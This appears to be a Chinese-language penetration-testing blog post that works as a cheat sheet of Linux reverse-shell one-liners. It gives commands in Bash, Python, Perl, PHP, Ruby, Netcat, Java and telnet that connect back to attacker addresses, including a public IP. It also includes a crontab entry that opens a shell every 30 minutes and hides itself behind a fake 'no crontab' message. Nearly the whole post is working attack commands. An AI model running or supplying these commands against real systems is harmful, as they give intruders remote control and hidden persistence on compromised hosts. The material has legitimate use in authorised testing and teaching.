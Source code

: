 +++
date = "2016-08-06T08:36:53+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Linux下反弹shell"
topics = ["Pentest"]

+++

当你找到一个有命令执行的主机时，你可能想要一个交互式deshell，如果你不能添加用户或者添加ssh密钥时，你就需要反弹一个shell来实现，下面的都是反弹shell的命令

### 0x00 Bash
```
/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1
注：这个由解析shell的bash完成，有些时候不支持
```

### 0x01 crontab
```
下面这条命令执行后会每隔30分钟反弹一次：
(crontab -l;printf "*/30 * * * * exec 9<> /dev/tcp/10.10.10.10/8888;exec 0<&9;
exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|
crontab -
```

### 0x02 Python
```python
# 下面为1条命令
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 0x03 Perl
```
# 下面为1条命令
perl -e 'use Socket;$i="10.10.10.10";$p=8888;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,
">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 0x04 PHP
```
php -r '$sock=fsockopen("10.10.10.10",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 0x05 Ruby
```
# 下面为1条命令
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8888).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 0x06 Netcat
```
nc -e /bin/sh 10.10.10.10 8888
```

### 0x07 Java
```
# 下面为3条命令
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/8888;cat <&5 | 
while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 0x08 telnet
```
两种方法：
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
telnet 173.214.173.151 8080 | /bin/bash | telnet 173.214.173.151 8888
第一种hacker运行：nc -vlp 8080
第二种hacker运行：nc -vlp 8080和nc -vlp 8888
```

<br /><br />
参考文章：  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
https://www.91ri.org/6620.html